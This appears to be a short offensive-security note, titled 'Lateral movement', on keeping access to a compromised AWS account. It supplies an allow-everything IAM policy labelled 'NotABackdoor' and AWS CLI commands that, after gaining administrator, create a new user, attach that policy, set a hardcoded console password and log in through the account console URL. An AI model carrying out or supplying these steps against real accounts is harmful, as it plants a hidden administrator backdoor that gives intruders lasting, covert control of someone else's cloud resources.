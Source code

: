 # Lateral movement
## Gain GUI Acess
#### Copy and save the following
- as ```admin-policy.json```
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "NotABackdoor",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

#### Create a new user that will give gui access to
- After gaining administrator
- Note down the ARN
```
sudo aws iam create-user --user-name gui-user --profile <profile name>
```

#### Attach the policy to the new user
```
sudo aws iam put-user-policy --user-name gui-user --policy-name VisualAid --policy-document file://admin-policy.json --profile <profile name>
```

#### Set password for the user
```
sudo aws iam create-login-profile --user-name gui-user --password "GUIAccessTime1" --profile <profile name>
```

#### Login with account ID
- Part from ARN
- https://<Account-ID-Number>.signin.aws.amazon.com/console/
